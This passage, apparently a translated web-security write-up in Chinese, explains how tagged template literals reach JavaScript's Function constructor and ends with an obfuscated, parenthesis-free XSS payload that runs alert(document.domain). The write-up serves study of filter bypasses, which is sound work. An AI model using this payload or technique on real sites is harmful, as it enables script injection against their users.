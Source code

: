 为了解决这个问题，我们可以将字符串放在模板文字占位符中。目前，我们正在使用带标签的模板。

当您将字符串放入占位符中时，您仍然会在执行时收到一个关于逗号的错误。

![](img/5be39aa94c01ad2e055fb3d179ade985.png)

构造函数出错

如果我们看一下[标记模板](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals)的 Mozilla 文档，我们注意到如果我们有下面的模板文字:

```
`string1 ${"alert(document.domain)"} string2`
```

它被传递给函数构造函数，如下所示:

```
Function([“string1”, “string2”], “alert(document.domain)”)
```

如前所述，第一个参数是匿名函数的参数，由于某种原因，当数组中的值从数组中移除并像这样传递时，前面的代码做了完全相同的事情(见下面的示例)。

```
Function(“string1”, “string2”, “alert(document.domain)”)
```

当模板文字不包含任何字符串时，一个包含两个空字符串的数组将被传递给`Function()`。在这种情况下，输出应该是:

```
ƒ anonymous(,
) {
alert()
}
```

由于该函数中有两个空字符串用作参数，因此引发了错误。解决方法是在占位符前像这样添加一个字符，这样输出就不会抛出错误，看起来像这样:

```
ƒ anonymous($,
) {
alert()
}
```

# 最终有效载荷

最终的有效载荷如下所示:

```
[][[e+1][0][5]+[e+1][0][1]+[e+1][0][25]+[e+1][0][19]+[e+1][0][6]+[e+1][0][16]+[e+1[0]][0][28]+[e+1][0][5]+[e+1][0][6]+[e+1][0][1]+[e+1][0][16]][[e+1][0][5]+[e+1][0][1]+[e+1][0][25]+[e+1][0][19]+[e+1][0][6]+[e+1][0][16]+[e+1[0]][0][28]+[e+1][0][5]+[e+1][0][6]+[e+1][0][1]+[e+1][0][16]]`$${[[][[[][[]]+[]][+[]][4]+[[][[]]+[]][+[]][5]+[[][[]]+[]][+[]][1]+[[][[]]+[]][+[]][2]]+[]][0][20]+[e+1][0][21]+`e`+[e+1][0][16]+[e+1][0][6]+[[][[e+1[0]][0][32]+[e+1[0]][0][33]+[e+1[0]][0][34]+[e+1[0]][0][36]]+[]][0][13]+[[][0]+[]][0][2]+[e+1][0][1]+[e+1][0][5]+[e+1[0]][0][28]+[e+1][0][23]+[e+1][0][4]+[e+1][0][25]+[e+1][0][26]+`.`+[[][0]+[]][0][2]+[e+1][0][1]+[e+1][0][23]+[[][[[][[]]+[]][+[]][4]+[[][[]]+[]][+[]][5]+[[][[]]+[]][+[]][1]+[[][[]]+[]][+[]][2]]+[]][0][20]+[[][0]+[]][0][5]+[e+1][0][25]+[[][[e+1[0]][0][32]+[e+1[0]][0][33]+[e+1[0]][0][34]+[e+1[0]][0][36]]+[]][0][14]}```
```
